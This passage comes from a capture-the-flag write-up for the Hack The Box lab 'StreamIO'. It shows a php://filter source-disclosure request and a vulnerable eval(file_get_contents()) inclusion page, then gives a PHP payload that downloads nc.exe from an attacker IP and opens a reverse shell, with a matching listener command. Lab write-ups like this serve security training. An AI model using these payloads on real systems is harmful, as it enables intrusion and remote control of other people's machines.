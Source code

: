 ```bash
/http%3A%2F%2Fwww     (Status: 400) [Size: 3420]
/Master.php           (Status: 200) [Size: 58]

...[snip]...
```

Here we have the following web page: **https://streamio.htb/admin/master.php**

## Code Analysis

We can download the code in base64 with the following request:

- https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php

After decoding the result, we obtained the following code:

```php
...[snip]...

<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?> 
```

Here, we have an RFI vulnerability in the *file_get_contents()* function of the **master.php** page. We can generate a POST request to */admin/?debug=master.php* with the **include** parameters pointing to our backdoor.

We just need to create a malicious PHP file like:

```php
system("curl 10.10.14.101/nc.exe -o c:\\Windows\\Temp\\nc.exe");
system("c:\\windows\\temp\\nc.exe 10.10.14.101 4321 -e cmd.exe");
```

Don't forget to set a listener on the attacking machine with `sudo nc -nlvp 4321`. Then, using Burp proxy, we can craft a POST request:

![image-center](/images/htb/htb_streamio_burp.png){: .align-center}
